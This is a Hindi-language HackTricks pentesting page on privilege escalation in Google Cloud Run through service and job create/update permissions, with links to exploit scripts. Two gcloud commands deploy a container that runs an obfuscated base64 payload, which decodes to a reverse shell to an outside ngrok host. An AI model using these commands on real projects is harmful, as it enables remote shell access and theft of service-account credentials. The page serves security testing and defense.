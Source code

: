 # GCP - Run Privesc

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord समूह में शामिल हों**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) या **Twitter पर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें.**
* **HackTricks के** [**github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Cloud Run

Cloud Run के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../../gcp-pentesting/gcp-services/gcp-cloud-run-enum.md" %}
[gcp-cloud-run-enum.md](../../gcp-pentesting/gcp-services/gcp-cloud-run-enum.md)
{% endcontent-ref %}

### `run.services.create` , `iam.serviceAccounts.actAs`, **`run.routes.invoke`**

एक हमलावर जिसके पास ये अनुमतियां होती हैं **मनमाने कोड के साथ एक रन सर्विस बनाने के लिए** (मनमाने Docker कंटेनर), उसे एक सर्विस अकाउंट से जोड़ने, और कोड को **मेटाडेटा से सर्विस अकाउंट टोकन को निकालने के लिए** बना सकता है।

इस विधि के लिए एक्सप्लॉइट स्क्रिप्ट [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/run.services.create.py) पाई जा सकती है और Docker इमेज [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudRunDockerImage) पाई जा सकती है।

ध्यान दें कि `gcloud run deploy` का उपयोग करते समय सिर्फ सर्विस बनाने के बजाय **इसे `update` अनुमति की आवश्यकता होती है**। [**यहाँ एक उदाहरण देखें**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/o-run.services.create.sh).

### `run.services.update` , `iam.serviceAccounts.actAs`

पिछले जैसा लेकिन एक सर्विस को अपडेट करना:
```bash
gcloud run deploy hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account="<proj-num>-compute@developer.gserviceaccount.com" \
--region=us-central1 \
--allow-unauthenticated
```
### `run.services.setIamPolicy`

अपने आप को पिछले अनुमतियाँ दें Cloud Run पर।

### `run.jobs.create`, `run.jobs.run`, (`run.jobs.get`)

एक जॉब लॉन्च करें जिसमें एक रिवर्स शेल हो ताकि आदेश में दिखाए गए सर्विस अकाउंट की चोरी की जा सके। आप यहाँ एक [**exploit यहाँ पा सकते हैं**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/m-run.jobs.create.sh).

### `run.jobs.update`,`run.jobs.run`,`iam.serviceaccounts.actAs`,(`run.jobs.get`)

पिछले जैसा ही यह संभव है कि **एक जॉब को अपडेट करें और SA को अपडेट करें**, **आदेश** और **इसे निष्पादित करें**:
```bash
gcloud beta run jobs update hacked \
--image=marketplace.gcr.io/google/ubuntu2004 \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account=<proj-num>-compute@developer.gserviceaccount.com \
--region=us-central1 \
--project=security-devbox --execute-now
```
### `run.jobs.setIamPolicy`

Cloud Jobs पर पिछली अनुमतियाँ अपने आप को दें।

## संदर्भ

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
